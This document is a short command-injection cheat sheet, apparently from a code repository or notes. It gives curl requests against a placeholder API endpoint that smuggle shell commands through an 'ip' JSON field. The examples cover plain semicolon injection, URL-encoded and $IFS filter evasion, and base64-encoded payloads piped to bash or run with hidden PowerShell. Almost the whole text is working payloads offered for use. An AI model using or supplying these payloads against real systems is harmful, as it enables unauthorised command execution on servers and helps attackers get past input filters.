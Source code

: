 # Basic command injection
```bash
curl http://target:8000/v1/users/trigger -d '{"ip": "10.10.10.10;whoami;"}'
```
-----------------------

# Encoding Injection
```bash
curl http://target:8000/v1/users/trigger -d '{"ip": "10.10.10.10%3Bwhoami%3B"}'
curl http://target:8000/v1/users/trigger -d '{"ip": "10.10.10.10%ls%20-la%3B"}'
curl http://target:8000/v1/users/trigger -d '{"ip": "10.10.10.10%ls{$IFS}-la%3B"}'
```

-----------------------

# Escaping words

```bash
>Linux
echo "<comand>" | base64
curl http://target:8000/v1/users/trigger -d '{"ip": "10.10.10.10%3Becho "d2hvYW1pCg==" | base64 -d | bash%3B"}'

>Windows
echo "<comand>" | base64
curl http://target:8000/v1/users/trigger -d '{"ip": "10.10.10.10%3Bpowershell -nop -w hidden -e d2hvYW1pCg==%3B"}'
```
